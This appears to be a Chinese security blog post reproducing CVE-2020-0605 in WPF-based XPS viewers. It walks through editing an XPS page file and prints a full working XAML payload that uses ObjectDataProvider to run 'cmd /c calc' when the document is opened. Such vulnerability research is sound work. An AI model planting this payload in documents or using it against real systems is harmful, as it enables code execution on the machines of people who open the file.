 0X01 背景
=======

XPS 是一种使用 XML、开放打包约定标准来创建的电子文档，XPS 极大的提升了Windows操作系统电子文档的创建、共享、打印、查看和存档效率，Windows系统内置多种应用提供创建XPS文档的打印程序，允许用户创建、查看以及批注打印的电子文档，例如 Microsoft Office 允许将文档保存为XPS格式的文件，当基于WPF开发的文档程序浏览或打印恶意攻击者伪造XPS文档时会触发XAML执行系统命令来获取管理员权限，CVE-2020-0605 就是这样的一种潜在的攻击案例，接下来跟随笔者一步步揭开它的神秘面纱

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-900d60ec87512300cdc89a4ea94349472627f6dd.png)

0X02 复现
=======

笔者尝试复现了漏洞 CVE-2020-0605，本质上XPS文件是一组包含字体、图像以及文本内容的ZIP压缩包，默认的扩展名为\*.xps，首先创建一个XPS文件，重命名为zip扩展名，解压后编辑Document/1/Pages/1.fpage文件，在FixedPage（固定页码）标记处添加 xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" ，然后在&lt;FixedPage.Resources&gt;标记内加上ObjectDataProvider对象的XAML代码，完整的Payload运行后如下图

```php
<FixedPage xmlns="http://schemas.microsoft.com/xps/2005/06" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/xps/2005/06/resourcedictionary-key" xml:lang="en-us" Width="672" Height="864">
    <FixedPage.Resources>
        <ObjectDataProvider MethodName="Start" x:Key="obj">
            <ObjectDataProvider.ObjectInstance>
                <sd:Process>
                    <sd:Process.StartInfo>
                        <sd:ProcessStartInfo Arguments="/c calc" FileName="cmd" />
                    </sd:Process.StartInfo>
                </sd:Process>
            </ObjectDataProvider.ObjectInstance>
        </ObjectDataProvider>
        <ResourceDictionary>
            <ImageBrush x:Key="b0" ViewportUnits="Absolute" TileMode="None" ViewboxUnits="Absolute" Viewbox="0,0,460,620" Viewport="0,0,222.58064516129,300" ImageSource="/Resources/31b5ebf2-c72c-4d3e-baf9-f1ef2532216a.jpg" />
        </ResourceDictionary>
    </FixedPage.Resources>
    <Canvas RenderTransform="1,0,0,1,48,48">
        <Glyphs OriginX="0" OriginY="13.3033333333333" FontRenderingEmSize="14" FontUri="/Resources/6a457906-dd11-45c7-af2e-70767fb01ace.ODTTF" UnicodeString="公众号：" Fill="#FF000000" />
        <Glyphs OriginX="56" OriginY="13.3033333333333" FontRenderingEmSize="14" FontUri="/Resources/fb0916f4-3aec-4fdc-a907-5b21a9781f69.ODTTF" UnicodeString="dotNet" Indices=",56" Fill="#FF000000" />
        <Glyphs OriginX="97.03" OriginY="13.3033333333333" FontRenderingEmSize="14" FontUri="/Resources/6a457906-dd11-45c7-af2e-70767fb01ace.ODTTF" UnicodeString="安全矩" Fill="#FF000000" />
        <Glyphs OriginX="139.03" OriginY="13.3033333333333" FontRenderingEmSize="14" FontUri="/Resources/8fe6cb39-0d3c-4f69-a415-5da54bc9e70d.ODTTF" UnicodeString="阵" Fill="#FF000000" />
        <Canvas RenderTransform="1,0,0,1,0,41.4133333333333">
            <Glyphs OriginX="0" OriginY="13.3033333333333" FontRenderingEmSize="14" FontUri="/Resources/6a457906-dd11-45c7-af2e-70767fb01ace.ODTTF" UnicodeString="网址：" Fill="#FF000000" />
            <Glyphs OriginX="42" OriginY="13.3033333333333" FontRenderingEmSize="14" FontUri="/Resources/fb0916f4-3aec-4fdc-a907-5b21a9781f69.ODTTF" UnicodeString="https://www.cnblogs.com/Ivan1ee/" Indices=";;;;;;;;,78;,78;,70;;;;;;;;;;;;;;;,48" Fill="#FF000000" /></Canvas>
        <Path Fill="{StaticResource b0}" RenderTransform="1,0,0,1,176.709677419355,82.8266666666667" Data="M0,0L222.58,0 222.58,300 0,300Z" />
    </Canvas>
</FixedPage>
```

